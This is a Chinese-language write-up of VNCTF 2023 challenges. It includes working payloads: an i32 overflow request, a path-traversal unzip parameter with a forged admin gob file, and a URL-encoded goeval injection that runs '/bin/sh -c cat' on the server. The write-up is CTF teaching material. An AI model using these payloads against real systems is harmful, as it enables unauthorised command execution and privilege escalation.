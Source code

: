 ## Web
### 象棋王子
在js源码 play.js中找到赢之后执行的逻辑，直接控制台执行
![](attachments/Pasted%20image%2020230427123520.png)


![](attachments/Pasted%20image%2020230427123350.png)

flag{w3lc0m3_t0_VNCTF_2023~~~}

### 电子木鱼
rust编写的后端，要1亿功德拿flag

![](attachments/Pasted%20image%2020230427124500.png)

这里考虑将cost设置为一个极限的负数，使功德减去它的时候能够转正 
i32的大小是 -2147483648~2147483647，经典的构造极限

没有思考了，在极限那个位置reset了几次
payload `name=Cost&quantity=214748366`

![](attachments/Pasted%20image%2020230427131811.png)

### BabyGo
go语言
一共5个路由
- GET /
- GET /upload
- POST /upload
	- 禁止上传 .gob 和 .go 文件
- GET /unzip
	- 解压文件，文件路径来自与get参数拼接
- GET /backdoor
	- 解码引用user.gob  在 Power为 admin 时 可以通过 goeval.Eval() 来执行命令

>思路：上传压缩文件，解压后覆盖原有user.gob 以此引用 /backdoor来执行命令，由于在调用的时候有decode的操作，我们生成的文件也需要是对应二进制的才能decode

[Go语言二进制文件的读写操作 (biancheng.net)](http://c.biancheng.net/view/4563.html)

```go
package main

import (
    "encoding/gob"
    "fmt"
    "os"
)

type User struct {
    Path string
    Name string
    Power string
}

func main() {
    user := User{Name: "ctfer", Path: "/tmp/d7671aa466b2c69f80e4bc0cf4b6b638/", Power: "admin",}
    file, err := os.Create("./user.gob")
    if err != nil {
        fmt.Println("文件创建失败", err.Error())
        return
    }
    defer file.Close()

    encoder := gob.NewEncoder(file)
    err = encoder.Encode(user)
    if err != nil {
        fmt.Println("编码错误", err.Error())
        return
    } else {
        fmt.Println("编码成功")
    }
}
```

解压时path可控，可以直接目录穿越
path=/../../../../../tmp/d7671aa466b2c69f80e4bc0cf4b6b638/
带着参数访问unzip就可以

![](attachments/Pasted%20image%2020230427135428.png)

当backdoor回显是good，就说明已经power=admin了
![](attachments/Pasted%20image%2020230427145609.png)

接下来就是goeval的使用
[GO语言安全 — 沙箱逃逸题目分析 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247496259&idx=1&sn=20b93256d8a5acfda5826c5d50096f63&chksm=fa5227fdcd25aeebbf9f9add2a483500a252d5ad058a92dafad394eaa1c57cf2bdb597e51b5c&scene=126&sessionid=1662436887&key=c28b5d09085340df0c20cadc0887eb0a420d5b3478fb82405c1162a5003fd87a918cab97f0023574a573ac935bbb17c54b4098410befadcc31f8320ab2775346154c10836855dd919d18f6653ef474ed1062c1b09cc3588cc8443f46baeb60df34d6211b9cc5d40cf20b4d7620e849c117bcb06d9142c9a0e852b2f08ec8a0af&ascene=15&uin=MzgxODQ4MjMz&devicetype=Windows+Server+2016+x64&version=63070517&lang=zh_CN&session_us=gh_94beeafaf804&exportkey=AzYl%2FCartrKvkaqiL%2Bd9Iv4%3D&acctmode=0&pass_ticket=L3CGnrfwXOeo2T%2Buh4YWaI7nRTXofYaJoUhuF2SbHMXZ9TQM3m3vlwD2pKPsf2tC&wx_header=0&fontgear=2)
这篇文章文末有可用的payload，中间还有goeval的分析
```
os/exec"%0a"fmt")%0afunc%09init()%7B%0acmd:=exec.Command("/bin/sh","-c","cat${IFS}/ffflllaaaggg")%0ares,err:=cmd.CombinedOutput()%0afmt.Println(err)%0afmt.Println(string(res))%0a}%0aconst(%0aMessage="fmt
```

![](attachments/Pasted%20image%2020230427150603.png)


### easyzentao
0day

## Misc
### 验证码
hint是 tupper
这里指的的tupper自指公式

